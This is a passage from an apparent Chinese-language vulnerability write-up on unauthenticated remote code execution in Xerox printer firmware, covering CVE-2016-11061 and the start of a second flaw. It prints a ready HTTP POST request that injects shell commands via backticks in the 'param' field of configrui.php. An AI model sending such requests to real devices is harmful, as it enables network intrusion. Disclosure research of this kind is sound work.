 ```

if  ("config" === $req) {
    echo $req;
    startRUI($param,$block,$user,$ip,$isActive,$isOverride);
}

// [已编辑]

```  
  
攻击者可以通过发送以下HTTP请求轻松利用它：  
```
POST /support/remoteUI/configrui.php HTTP/1.1
Host: 192.168.0.10
User-Agent: Mozilla/5.0
Accept: text/html
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: [已编辑]

req=config&isOverride=1&param=`要执行的命令`

```  
  
尽管2016年发布了补丁，我们在日常渗透测试中仍然遇到使用2016年及更早版本固件的情况。  
## 未认证的远程代码执行 #2  
  
**分配的CVE：** 无  
  
在2023年，我第一次遇到了一个不受CVE-2016-11061影响的已修补施乐设备。我迅速下载了新固件并检查了补丁：  
```
<?php

$req = $_POST['req'];
$block = escapeshellcmd($_POST['block']);
$user = escapeshellcmd($_POST['username']);
$isActive = escapeshellcmd($_POST['isActive']);
$isOverride = escapeshellcmd($_POST['isOverride']);

// [已编辑]

```  
  
显然，没有更多的操作空间了。施乐只是从代码中移除了$_POST['param']，消除了允许shell注入的参数。  
  
然而，我仔细检查了在一些PHP文件中发现的预处理器指令：  
```
...

<?php
if ( true == $gdisplayScanPreset )
{
?>
var CUSTOM_CHOICE           = "custom";
<?php
}
?>

<script type="text/javascript">
// [已编辑]

// 全局变量
var gCurrentValidationServerPath    = "";
var gCurrentValidationServerProtocol  = '<!-- loa fn=HTTP_Parser_Get_fn arg="xrx_svc_validation 1 MetaDataValidationServerProtocol string" context="js" -->';
```